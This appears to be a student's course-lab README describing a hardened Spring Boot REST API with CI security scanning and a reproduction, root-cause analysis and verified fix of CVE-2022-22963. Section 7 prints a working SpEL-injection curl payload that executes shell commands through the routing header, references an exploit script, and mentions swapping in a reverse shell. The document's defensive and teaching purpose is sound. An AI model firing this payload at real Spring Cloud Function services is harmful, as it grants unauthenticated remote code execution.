








# Work 1 — Secure REST API with CI/CD and Real CVE Analysis

**Variant CVE:** [CVE-2022-22963](https://nvd.nist.gov/vuln/detail/CVE-2022-22963) — Spring Cloud Function SpEL code injection
**Stack:** Java 17 · Spring Boot 4.1.1 · Spring Security · Spring Data JPA · H2 · JJWT · Maven
**CI:** GitHub Actions (unit/integration tests + SpotBugs SAST + OWASP Dependency-Check SCA)

| Item | Value |
|---|---|
| Work | Work 1: Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis |
| Repository | <https://github.com/Ameyuh0716/IS-lab1-CVE> |
| Last successful pipeline | <https://github.com/Ameyuh0716/IS-lab1-CVE/actions/runs/39454630564> |
| Variant | CVE-2022-22963 |
| Student | Yao Jiangyu |
| HDU number | 23320115 |

---

## 0. Submission checklist

| # | Required item | Where |
|---|---|---|
| 1 | Public git repository with the project code | <https://github.com/Ameyuh0716/IS-lab1-CVE> (public) |
| 2 | README description of the project and API | §2 |
| 2 | README description of the implemented security measures | §3 |
| 2 | README screenshots of the SAST/SCA reports | §4 |
| 2 | CVE ID and brief description | §5 |
| 2 | Reproduction sequence with commands and screenshots | §6–§7 |
| 2 | Root cause analysis | §8 |
| 2 | Description of the applied fix and why it is effective | §9 |
| 2 | Proof that the vulnerability is eliminated | §10 |
| 3 | Link to the last successful pipeline run | <https://github.com/Ameyuh0716/IS-lab1-CVE/actions/runs/39454630564> |
| 4 | Folder with the fixes | [`fix/`](fix/) |

---

## 1. Repository layout

```
.
├── secure-api/                     # The secure REST API (part 2–5 of the work)
│   ├── pom.xml
│   ├── src/main/java/com/hdu/is/secureapi/
│   ├── src/main/resources/
│   └── src/test/java/              # 10 MockMvc integration tests
├── .github/workflows/ci.yml        # SAST + SCA pipeline
├── vulhub/spring/CVE-2022-22963/   # Vulnerable environment (3.2.2), see §7
├── fix/CVE-2022-22963/             # Patched environment (3.2.3) + Dockerfile, see §9
├── exploit/poc.sh                  # Reproduces the attack against either environment
└── docs/                           # Report with title page; screenshots/ holds the evidence images
```

---

## 2. API description

Base URL: `http://localhost:9090`

| Method | Path | Auth | Description |
|---|---|---|---|
| `POST` | `/auth/login` | none | Authenticates a user and returns a signed JWT |
| `GET` | `/api/data` | Bearer JWT | Returns the user list (no password hashes) |
| `GET` | `/api/posts?q=` | Bearer JWT | Lists / searches posts (parameterized JPQL) |
| `POST` | `/api/posts` | Bearer JWT | Creates a post, escaping user input |
| `DELETE` | `/api/posts/{id}` | Bearer JWT, `ROLE_ADMIN` | Deletes a post |
| `GET` | `/api/me` | Bearer JWT | Third custom endpoint: echoes the token identity |

Seeded users (in-memory H2, see `secure-api/src/main/resources/data.sql`):

| Username | Password | Role |
|---|---|---|
| `alice` | `Alice@Passw0rd` | `ROLE_USER` |
| `admin` | `Admin@Passw0rd` | `ROLE_ADMIN` |

### 2.1 Run it

```bash
cd secure-api
mvn spring-boot:run          # http://localhost:9090
mvn test                     # 10 integration tests
```

Production override for the signing key (must be Base64, ≥ 256 bits):

```bash
APP_JWT_SECRET=$(openssl rand -base64 48) mvn spring-boot:run
```

### 2.2 Call it

```bash
# 1) Login
TOKEN=$(curl -s -X POST http://localhost:9090/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"alice","password":"Alice@Passw0rd"}' | jq -r .token)

# 2) Protected data — without a token: 401
curl -i http://localhost:9090/api/data

# 3) Protected data — with a token: 200
curl -s http://localhost:9090/api/data -H "Authorization: Bearer $TOKEN"

# 4) Search (parameterized query)
curl -s "http://localhost:9090/api/posts?q=JWT" -H "Authorization: Bearer $TOKEN"

# 5) Create a post (input is HTML-escaped before storage)
curl -s -X POST http://localhost:9090/api/posts \
  -H "Authorization: Bearer $TOKEN" -H 'Content-Type: application/json' \
  -d '{"title":"<script>alert(1)</script>","body":""}'

# 6) Identity carried by the token
curl -s http://localhost:9090/api/me -H "Authorization: Bearer $TOKEN"
```

Every response shown in this README was captured from a live run of the API.

To run the whole demonstration (login, `401`/`200`, SQLi, XSS, `403`, tampered token) in one go for
screenshots:

```bash
./scripts/demo_api.sh            # or: ./scripts/demo_api.sh http://localhost:9090
```

---

## 3. Security measures

### 3.1 SQL injection (A03:2021 — Injection)

The application never builds SQL by string concatenation; there is no `createQuery`/`createNativeQuery`
with an interpolated string anywhere in the code base.

* All persistence goes through Spring Data JPA repositories. `UserRepository.findByUsername` is a
  derived query, so the username is bound as a JDBC parameter.
* The only dynamic filter (`GET /api/posts?q=`) uses JPQL with a **named bound parameter**:

  ```java
  @Query("""
          select p from Post p
          where lower(p.title) like lower(concat('%', :q, '%'))
             or lower(p.body)  like lower(concat('%', :q, '%'))
          """)
  List<Post> search(@Param("q") String q);
  ```

  Hibernate compiles this to `... like ?` and binds the value — the payload stays data.
* Defence in depth: `InputValidator` allow-lists the search term (`[\p{L}\p{N} _.-]{0,64}`) and
  usernames before they reach the query layer, and rejects anything else with `400`.
* Error handling returns a generic message; SQL/stack-trace details are never propagated
  (`server.error.include-stacktrace=never`, `GlobalExceptionHandler`).

Verified: `' OR 1=1 --` in `q` → `400`; `alice' OR '1'='1` as username → `401`.
See the command in §2.2 step 5.

### 3.2 XSS (A03:2021 — Injection)

* Every user-controlled string is HTML-escaped **on ingress** through `XssSanitizer`
  (`HtmlUtils.htmlEscape(value, "UTF-8")`) before it is persisted, so all later reads — including
  future clients that forget to escape — are safe.
* Responses are JSON only (`Content-Type: application/json`), never HTML, so stored markup cannot
  become an active document.
* Hardening headers are set globally in `SecurityConfig`: `X-Content-Type-Options: nosniff`,
  `X-Frame-Options: DENY`, `Content-Security-Policy: default-src 'none'; frame-ancestors 'none'`,
  plus a strict CORS allow-list from configuration (not `*`).

Verified: posting `<script>alert(1)</script>` returns `&lt;script&gt;alert(1)&lt;/script&gt;`
as shown in §2.2 step 5.

### 3.3 Authentication (A07:2021 — Identification and Authentication Failures)

**Password storage.** Passwords are hashed with BCrypt, strength 12
(`new BCryptPasswordEncoder(12)`). BCrypt embeds a per-password random salt and is deliberately slow,
so identical passwords hash differently and offline guessing is expensive — unlike SHA-256, which is
fast and unsalted. Plaintext is never persisted and the hash is never serialised: responses use the
`UserView` projection, which has no `passwordHash` field.

**JWT issuance.** `POST /auth/login` verifies the password and issues an HS256 token
(`JwtService`):

* header `alg/typ`, payload `sub` (username), `role`, `iss`, `iat`, `exp`;
* signed with a 384-bit Base64 key from configuration, never hard-coded in source;
* lifetime 1 hour (`app.jwt.expiration`), configurable.

**Token verification.** `JwtAuthenticationFilter` (a `OncePerRequestFilter`, registered before
`UsernamePasswordAuthenticationFilter`) reads `Authorization: Bearer …`, verifies the signature,
issuer and expiry through `Jwts.parser().verifyWith(key).requireIssuer(issuer)`, and populates the
`SecurityContext` with the token's role. Any failure leaves the request unauthenticated.

**Session model.** `SessionCreationPolicy.STATELESS` — no cookie, no server-side session, so CSRF
tokens are not needed and CSRF is disabled deliberately (documented in `SecurityConfig`).

**Authorization.** `/auth/login` is public; everything under `/api/**` requires a valid token;
`DELETE /api/posts/{id}` additionally requires `ROLE_ADMIN`; anything else is `denyAll()`.
Missing/invalid token → `401`, insufficient role → `403`
(see §2.2 step 2).

**Brute-force protection.** `LoginAttemptService` locks an account for 15 minutes after 5 failed
attempts and returns `429`. Login always performs a BCrypt comparison — even for unknown users —
so response timing does not reveal whether a username exists, and the error message is identical in
both cases.

---

## 4. CI/CD pipeline with security scanners

Workflow: [`.github/workflows/ci.yml`](.github/workflows/ci.yml). It runs on every `push` and
`pull_request`.

Latest green run: <https://github.com/Ameyuh0716/IS-lab1-CVE/actions/runs/39454630564> — both jobs
succeeded, and the `spotbugs-report`, `surefire-reports` and `sca-reports` artifacts are attached.

### 4.0 Scanner reports (screenshots)



*Both jobs of the latest run succeeded.*



*SAST: SpotBugs reports `BugInstance size is 0` — no Medium or High findings.*



*SCA: 91 resolved dependencies, 0 known vulnerabilities, so the gate passes.*

| Job | Step | Tool | Purpose |
|---|---|---|---|
| `build-test-sast` | `mvn test` | JUnit 5 + MockMvc | 10 security regression tests |
| `build-test-sast` | `mvn spotbugs:check` | **SpotBugs 4.8** (SAST) | Bytecode analysis, fails on Medium+ findings |
| `sca` | `scripts/osv_scan.py` | **OSV.dev** (SCA) | Resolves the Maven tree, queries every coordinate, fails on HIGH/CRITICAL |
| `sca` | `dependency-check:check` | **OWASP Dependency-Check 10** (SCA) | Full NVD scan, fails on CVSS ≥ 7; runs automatically once `NVD_API_KEY` exists |

All reports are uploaded as build artifacts (`spotbugsXml.xml`, `osv-report.md/json`,
`dependency-check-report.html/json`).

The OSV step is the always-on SCA gate: it needs no secrets and completes in about a minute, so the
pipeline is green out of the box. The OWASP Dependency-Check step is wired to run as soon as the
`NVD_API_KEY` secret is present — without a key its first NVD database download can take hours, which
would make every run look broken for reasons unrelated to the project. Add the secret (free at
<https://nvd.nist.gov/developers/request-an-api-key>) to enable the full NVD scan as well.

Local equivalent:

```bash
cd secure-api
mvn -B verify                                              # tests + SpotBugs
mvn -B -DskipTests org.owasp:dependency-check-maven:check   # needs NVD_API_KEY for speed

# SCA gate used by CI, no NVD download required (drives the remediation in §4.1)
python3 ../scripts/osv_scan.py .
```

`scripts/osv_scan.py` writes `target/osv-report.md` and `target/osv-report.json` and exits non-zero
when a HIGH or CRITICAL advisory is found, so it works both locally and as a CI gate.

SpotBugs initially reported 5 real findings; all were fixed rather than suppressed: the
`SecurityProperties` record now defensively copies its list (`List.copyOf`), `JwtService` is `final`
(closing the finalizer-attack window flagged by `CT_CONSTRUCTOR_THROW`), and the two
`EI_EXPOSE_REP2` reports on container-injected singletons are annotated with an explicit
justification.

Screenshots of the green pipeline and of both scanner reports are included in the submitted
report.

### 4.1 SCA found real vulnerabilities — and they were fixed

The first scan of the initial dependency set (Spring Boot 3.3.5, October 2024) reported **87
advisories: 9 critical, 30 high, 33 moderate, 15 low**:

| Package | Version | Example advisory |
|---|---|---|
| `org.apache.tomcat.embed:tomcat-embed-core` | 10.1.31 | GHSA-5m62-pw8w-7w9f (security constraints not applied) |
| `org.springframework:spring-webmvc` | 6.1.14 | GHSA-pc63-qcmh-9cmg (XsltView path limitation) |
| `org.springframework.security:spring-security-web` | 6.3.4 | GHSA-mf92-479x-3373 (headers not written) |
| `com.fasterxml.jackson.core:jackson-databind` | 2.17.2 | GHSA-j3rv-43j4-c7qm (PolymorphicTypeValidator bypass) |

Remediation applied:

1. **Spring Boot 3.3.5 → 4.1.1** (latest stable), which moves the runtime onto Tomcat 11 and
   Spring Framework 7 for the framework-level fixes.
2. **Explicit version overrides** in `pom.xml` for the remaining advisories whose fixes are newer
   than the versions the BOM pins:

   ```xml
   <tomcat.version>11.0.25</tomcat.version>        <!-- fixes GHSA-9xv2-5v5q-p794 and friends -->
   <jackson-bom.version>3.1.8</jackson-bom.version> <!-- Jackson 3, used by Spring Boot 4 -->
   <jackson-2-bom.version>2.21.8</jackson-2-bom.version> <!-- Jackson 2, pulled in by jjwt-jackson -->
   ```

3. **Re-scan** after the change: **0 findings across 91 resolved dependencies** — visible in the
   `SCA - OSV.dev` step of the pipeline, which prints `Dependencies scanned: 91` and
   `Vulnerabilities found: 0`.
4. **Regression check**: all 10 integration tests still pass and SpotBugs still reports 0 bugs.

The two Jackson lines must be overridden separately because Spring Boot 4 uses Jackson 3
(`tools.jackson.*`) while `jjwt-jackson` still depends on Jackson 2 (`com.fasterxml.*`).

---

## 5. Selected vulnerability

**CVE-2022-22963 — Spring Cloud Function SpEL Expression Injection (RCE)**

| | |
|---|---|
| Affected | Spring Cloud Function 3.1.0–3.1.6, 3.2.0–3.2.2 (and older unsupported lines) |
| Fixed in | 3.1.7, 3.2.3 |
| CVSS v3.1 | 9.8 Critical (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`) |
| CWE | CWE-94 Improper Control of Generation of Code ("Code Injection"), CWE-917 Expression Language Injection |
| Impact | Unauthenticated remote code execution as the application user |

Spring Cloud Function exposes a `functionRouter` endpoint. When the request carries the header
`spring.cloud.function.routing-expression`, the value is parsed as a **SpEL** expression and
evaluated to decide which function to route to. Because the expression is evaluated with a
`StandardEvaluationContext`, SpEL type references (`T(...)`) and method calls are allowed, so an
attacker can invoke arbitrary Java — e.g. `Runtime.getRuntime().exec(...)`.

Vulhub environment: <https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22963>.

---

## 6. Environment

```bash
docker --version          # 29.8.2
docker compose version    # v5.6.0
java -version             # 17
mvn -version              # 3.9.9
```

The vulnerable image is `vulhub/spring-cloud-function:3.2.2` (Spring Boot 2.6.5, Java 8, Netty on
8080). On Apple Silicon it runs under emulation, which is fine for this exercise.

---

## 7. Reproducing the vulnerability

```bash
# 1) Vulnerable environment (Spring Cloud Function 3.2.2)
docker compose -f vulhub/spring/CVE-2022-22963/docker-compose.yml up -d

# 2) The service works normally
curl http://127.0.0.1:8080/uppercase -H 'Content-Type: text/plain' --data-binary test
# -> TEST

# 3) Exploit: SpEL injection in the routing header
curl -i -X POST http://127.0.0.1:8080/functionRouter \
  -H 'Content-Type: text/plain' \
  -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")' \
  --data-binary 'test'

# 4) Prove the command ran
docker compose -f vulhub/spring/CVE-2022-22963/docker-compose.yml exec -T spring ls -l /tmp/success
# -rw-r--r-- 1 root root 0 ... /tmp/success
```



*Step 1: the vulnerable Spring Cloud Function 3.2.2 container is up on port 8080.*



*Step 3–4: the `spring.cloud.function.routing-expression` header is evaluated as SpEL.*



*Step 5: `/tmp/success` exists inside the container, so the injected command really executed.*

A one-shot script does the same and prints a verdict:

```bash
./exploit/poc.sh vulhub/spring/CVE-2022-22963/docker-compose.yml spring 8080 /tmp/success
```

Output (abridged):

```
[*] 1) Sanity check: normal function invocation
TEST
[*] 2) SpEL injection via the spring.cloud.function.routing-expression header
HTTP/1.1 500 Internal Server Error
{"timestamp":"...","path":"/functionRouter","status":500,"error":"Internal Server Error"}
[*] 3) Side-effect check inside the container
-rw-r--r-- 1 root root 0 Oct 20 13:49 /tmp/success
[!] VULNERABLE: the injected command executed
```

The `500` is expected: the expression is evaluated during routing, the injected process runs, and
the routing then fails because `exec` returns a `Process` instead of a function name.

To show the real impact, replacing `touch` with `id` or a reverse shell gives code execution in the
container context — the container runs as `root`:

```bash
docker compose exec -T spring id
# uid=0(root) gid=0(root) groups=0(root)
```

**Required screenshots:** the `curl` above, and `ls -l /tmp/success` inside the container.

---

## 8. Root cause analysis

The vulnerability is a **trust-boundary / input-handling error**: untrusted request metadata is fed
into an expression-language interpreter.

1. **Sink.** `RoutingFunction.route()` reads the message header
   `spring.cloud.function.routing-expression` and calls `functionFromExpression(headerValue, message)`.
2. **Interpreter.** `SpelExpressionParser.parseExpression()` compiles that string, and
   `expression.getValue(this.evalContext, input, String.class)` evaluates it against a
   `StandardEvaluationContext`. That context is the dangerous part: it enables type references
   (`T(java.lang.Runtime)`), constructors, static methods and bean resolution.
3. **Missing restriction.** The developer's intent was to let callers *name a function* — legitimate
   expressions are trivial strings such as `uppercase` or `myFunction|otherFunction`. Nothing
   constrains the expression to "resolve a bean name"; the full SpEL language is available.
4. **Reachability.** `functionRouter` is exposed by `spring-cloud-function-web` on the public
   WebFlux endpoint, and the routing header needs no authentication — hence `PR:N` / 9.8.

So the flaw is not a memory-safety bug or a missing patch, but **over-powered interpretation of an
externally supplied string**: the router executes attacker-controlled code in the same JVM, with the
application's privileges. A precise fix must therefore change *how* the header is evaluated, not
merely blacklist keywords (blacklisting `T(` is bypassable via nested property access and string
concatenation, so it is not a fix).

---

## 9. Applied fix

**Primary fix — upgrade to the patched library (what upstream did).**

The official fix, commit
[`0e89ee27`](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)
("GH-835 Fix RoutingFunction SpEL evaluation"), adds a second, restricted context used *only* for
header-supplied expressions:

```java
private final SimpleEvaluationContext headerEvalContext = SimpleEvaluationContext
        .forPropertyAccessors(DataBindingPropertyAccessor.forReadOnlyAccess()).build();
...
String functionName = isViaHeader
        ? expression.getValue(this.headerEvalContext, input, String.class)
        : expression.getValue(this.evalContext, input, String.class);
```

`SimpleEvaluationContext` with a read-only data-binding accessor disables type references, static
methods, constructors and bean resolution — exactly the features the exploit needs — while still
allowing the legitimate property/function-name lookups the router depends on.

`fix/CVE-2022-22963/` applies this by pinning the patched release:

```xml
<spring-cloud-function.version>3.2.3</spring-cloud-function.version>
```

The directory contains the complete reproducible build: `Dockerfile` (multi-stage Maven → JRE 17),
`docker-compose.yml` (published on **8081** so it can run next to the vulnerable one), `pom.xml`
(3.2.3), the sample application source and `application.properties`.

```bash
docker compose -f fix/CVE-2022-22963/docker-compose.yml up --build -d
```

**Why this method is effective.** The vulnerability exists because a privileged interpreter was
applied to untrusted input. The fix replaces it with a *capability-restricted* interpreter: the
sandbox is the security boundary, not a filter over the input string, so there is no character or
keyword to bypass. `SimpleEvaluationContext` is designed precisely for evaluating values that come
from outside the trust boundary.

**Defence in depth (recommended if upgrading is not immediately possible).** Block or strip the
`spring.cloud.function.routing-expression` header at the edge (reverse proxy / WAF), and do not
expose `functionRouter` publicly. Both reduce reachability but do not remove the sink — upgrading is
the real fix.

---

## 10. Proof that the vulnerability is eliminated

Same exploit, same script, against the fixed build:

```
$ ./exploit/poc.sh fix/CVE-2022-22963/docker-compose.yml spring-fixed 8081 /tmp/success-3
[*] Target: http://127.0.0.1:8081  (service spring-fixed)
[*] 1) Sanity check: normal function invocation
TEST                       <- functionality intact
[*] 2) SpEL injection via the spring.cloud.function.routing-expression header
HTTP/1.1 500 Internal Server Error
[*] 3) Side-effect check inside the container
[+] NOT EXPLOITABLE: /tmp/success-3 was not created
```

The server records the refusal explicitly (container log):

```
org.springframework.expression.spel.SpelEvaluationException:
    EL1005E: Type cannot be found 'java.lang.Runtime'
```

`T(java.lang.Runtime)` cannot even be resolved any more, so no code is executed. The request still
returns `500` (the expression is not a valid function name), but the behaviour is now *fail-safe*:
the attacker gains nothing.



*The identical request against the patched build creates no marker file — the attack fails.*

**Regression check.** The legitimate function still works on the fixed build:

```
$ curl -s http://127.0.0.1:8081/uppercase -H 'Content-Type: text/plain' --data-binary 'hello'
HELLO
```



*The normal `uppercase` function still returns `HELLO` after the patch.*

### Task matrix

| Check | Vulnerable (3.2.2) | Fixed (3.2.3) |
|---|---|---|
| `GET /uppercase` normal use | `TEST` | `TEST` |
| SpEL RCE via routing header | marker file created | `EL1005E`, no marker |
| Attack result | code execution as root | rejected |

---

## 11. Conclusion

The API implements the three required methods plus JWT + BCrypt authentication, parameterized
queries and output escaping; SpotBugs and OWASP Dependency-Check run on every push. CVE-2022-22963
was reproduced against Spring Cloud Function 3.2.2, its root cause was identified as SpEL evaluation
of an untrusted header with `StandardEvaluationContext`, and the fix (3.2.3 / `SimpleEvaluationContext`,
upstream commit `0e89ee27`) was verified to block the attack while preserving normal function.
